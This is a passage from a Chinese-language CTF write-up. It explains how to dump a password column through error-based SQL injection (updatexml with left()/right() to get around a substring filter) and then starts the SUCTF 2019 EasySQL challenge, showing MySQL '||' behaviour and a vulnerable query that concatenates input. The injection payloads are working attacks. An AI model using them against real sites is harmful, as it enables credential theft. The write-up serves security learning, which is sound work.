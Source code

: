 **5. 拖库**

这里通过分析得到密码就是flag，但是由于这里对`substring()`或者是`substr?()`都做了过滤，查了一下，使用`left()`和`right()`函数

```bash
# 先使用left函数查出左半部分内容
username=admin&password=-1'or(updatexml(1,concat(0x7e,(select(left((group_concat(password)),30))from(H4rDsq1))),3))%23

# 再使用right函数查出右半部分内容
username=admin&password=-1'or(updatexml(1,concat(0x7e,(select(right((group_concat(password)),30))from(H4rDsq1))),3))%23

# flag：flag{ad1d3318-b81c-4db8-ad5f-48aaeefbbcb8}
```

<img src="CTF.assets/image-20230622004827285.png" alt="image-20230622004827285" style="zoom:50%;" />

## [SUCTF 2019]EasySQL

### 前置知识

```sql
# 在这条SQL语句中，MySQL会将*看为一部分（做一个查询对象），1 || password 做一列（一个查询对象），由于使用的是“||”，所以永远只会查询 || 左边的内容
mysql> select *,1 || password from user;
+----+----------+----------------------------------+---------------+
| id | username | password                         | 1 || password |
+----+----------+----------------------------------+---------------+
|  1 | admin    | e10adc3949ba59abbe56e057f20f883e |             1 |
+----+----------+----------------------------------+---------------+
1 row in set (0.00 sec)
```

### 解题流程

**1. 后台SQL语句**

看了WP才知道的后台SQL语句是这样写的

```php
$sql = "select ".$post['query']."||flag from Flag";
```
